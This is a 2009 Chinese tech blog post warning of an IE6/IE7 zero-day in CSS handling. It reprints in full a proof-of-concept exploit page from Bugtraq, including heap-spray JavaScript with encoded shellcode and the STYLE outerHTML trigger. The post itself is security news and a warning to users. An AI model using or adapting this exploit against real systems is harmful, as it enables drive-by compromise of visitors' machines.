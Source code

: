 ```yaml
---
layout: post
title: IE6/IE7 0day 漏洞
date: 2009/11/22/ 16:52:14
updated: 2009/11/22/ 16:52:14
status: publish
published: true
type: post
---
```




昨天（2009年11月21日），Symantec发布了[IE的一个0day安全漏洞的消息](http://www.symantec.com/connect/blogs/zero-day-internet-explorer-exploit-published)。关于这个消息，截止本文发布时，在中文社区里还没有报导。这是一个关于IE6/IE7处理CSS时的一个漏洞（[关于IE和CSS的BUG](https://coolshell.cn/articles/1817.html)）。如果你目前还在使用IE6/IE7，那你现在可能是你升级的时候了，当然，有很多人说IE8是没有问题的，但我个人还是建议在补丁出来之前先使用Firefox或Chrome。


根据Symantec的的报告，他们在第一时间内测试了那个“Exploit Code”（攻击代码），根据测试结果表时，那个JavaScript的攻击代码并不是100%的可靠，而且很不可靠，但安全专家相信，100%完全可靠的“攻击代码”将会马上出现。这意味着，这段攻击代码会马上如潮水一样地放在各个有恶意的网站上，然后，所有的IE6/IE7的，打开JavaScript的用户都会被危及。


目前，这段攻击代码，虽然很不可靠，但已经被证明在IE6/IE7的 Windows XP SP3上是可靠的，目前还没有相关报告说明有多少台电脑中招了，但我相信，在过去的这个周末，一定有一些人在拼命地在改善这段攻击代码，他们要赶在相关的补丁出来之前。而Microsoft，相信他还是和以前一样，一定要等到攻击很广泛的时候才会开始真正把补丁提上日程。


最后，说一下攻击代码，这个代码是在[Bugtraq邮件组](http://seclists.org/bugtraq/2009/Nov/148)中，这段攻击代码如下所示，这段代码攻击性并不可靠。




```
<!--
securitylab.ir
K4mr4n_st () yahoo com
-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"<a href="http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd</a>";>
<HTML xmlns=<a href="http://www.w3.org/1999/xhtml">http://www.w3.org/1999/xhtml</a>;>
    <HEAD>
<script>  
            function load(){
                var e;
                e=document.getElementsByTagName("STYLE")[0];
                e.outerHTML="1";
            }
        </script>    
        <STYLE type="text/css">
            body{ overflow: scroll; margin: 0; }
        </style>
       
        <SCRIPT language="javascript">
var shellcode =
unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");
var bigblock = unescape("%u9090%u9090");
var headersize = 20;
var slackspace = headersize+shellcode.length;
while (bigblock.length<slackspace) bigblock+=bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length-slackspace);
while(block.length+slackspace<0x40000) block = block+block+fillblock;
memory = new Array();
for (x=0; x<4000; x++) memory[x] = block + shellcode;
</script>
 
    </HEAD>   
    <BODY onload="load()">
    </BODY>
</HTML>
```

 





**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![一次Ajax查错的经历](../wp-content/uploads/2012/08/ajax_error-150x150.jpg)](https://coolshell.cn/articles/8170.html)[一次Ajax查错的经历](https://coolshell.cn/articles/8170.html)
* [![做个环保主义的程序员](../wp-content/uploads/2012/04/Green-Computing-150x150.jpg)](https://coolshell.cn/articles/7186.html)[做个环保主义的程序员](https://coolshell.cn/articles/7186.html)
* [https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/5.jpg](https://coolshell.cn/articles/5107.html)[10大经典错误](https://coolshell.cn/articles/5107.html)
* [![新浪微博的XSS攻击](../wp-content/uploads/2011/06/sina_xss01-150x150.png)](https://coolshell.cn/articles/4914.html)[新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html)
* [![中国仍是IE6的重灾区](../wp-content/uploads/2011/03/IE6-Countdown-150x150.png)](https://coolshell.cn/articles/3921.html)[中国仍是IE6的重灾区](https://coolshell.cn/articles/3921.html)
* [![微软用新浪来当反面教材](../wp-content/uploads/2011/03/affc-image1-150x150.png)](https://coolshell.cn/articles/3872.html)[微软用新浪来当反面教材](https://coolshell.cn/articles/3872.html)
The post [IE6/IE7 0day 漏洞](https://coolshell.cn/articles/1835.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).